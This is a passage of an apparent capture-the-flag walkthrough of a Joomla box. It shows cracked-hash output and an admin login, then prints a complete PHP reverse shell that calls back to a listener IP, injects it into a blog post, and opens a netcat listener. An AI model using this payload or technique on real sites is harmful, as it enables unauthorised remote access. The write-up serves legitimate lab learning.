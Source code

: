 ```sh
Recovered........: 1/1 (100.00%) Digests
Progress.........: 46848/14344385 (0.33%)
Rejected.........: 0/46848 (0.00%)
Restore.Point....: 46824/14344385 (0.33%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:960-1024
Candidates.#1....: supaman -> smokers

Started: Fri Aug 28 19:22:38 2020
Stopped: Fri Aug 28 19:30:29 2020
```

Now that we got a password, let's log into Joomla admin:

Note: We also can log in into the non-admin section of the blog, but what we really want is that **/administrator/** path that we found earlier.

![Logged in as Jonah](https://i.imgur.com/91n6CmU.png)


Let's see if we can add a new post, but the code being a php reverse shell. Not sure if this will work:


Looking around for PHP Reverse shells, I found this one [here](https://gist.github.com/rshipp/eee36684db07d234c1cc)


```php
/*<?php /**/ error_reporting(0); $ip = '10.13.0.34'; $port = 2112; if (($f = 'stream_socket_client') && is_callable($f)) { $s = $f("tcp://{$ip}:{$port}"); $s_type = 'stream'; } if (!$s && ($f = 'fsockopen') && is_callable($f)) { $s = $f($ip, $port); $s_type = 'stream'; } if (!$s && ($f = 'socket_create') && is_callable($f)) { $s = $f(AF_INET, SOCK_STREAM, SOL_TCP); $res = @socket_connect($s, $ip, $port); if (!$res) { die(); } $s_type = 'socket'; } if (!$s_type) { die('no socket funcs'); } if (!$s) { die('no socket'); } switch ($s_type) { case 'stream': $len = fread($s, 4); break; case 'socket': $len = socket_read($s, 4); break; } if (!$len) { die(); } $a = unpack("Nlen", $len); $len = $a['len']; $b = ''; while (strlen($b) < $len) { switch ($s_type) { case 'stream': $b .= fread($s, $len-strlen($b)); break; case 'socket': $b .= socket_read($s, $len-strlen($b)); break; } } $GLOBALS['msgsock'] = $s; $GLOBALS['msgsock_type'] = $s_type; if (extension_loaded('suhosin') && ini_get('suhosin.executor.disable_eval')) { $suhosin_bypass=create_function('', $b); $suhosin_bypass(); } else { eval($b); } die();
```

We paste that in the view code of the blog entry:

![blog entry source code view](https://i.imgur.com/PhmwKsJ.png)

Let's fire up a netcat listener:

```sh
┌──(kali㉿kali)-[~/Documents/THM/dailyBugle]
└─$ nc -nlvp 2112                                              
listening on [any] 2112 ...

```
Now let's publish the blog post and see if it gets triggered right there or if we need to visit it. This might not work at all if the post code is not processed as PHP code at all.
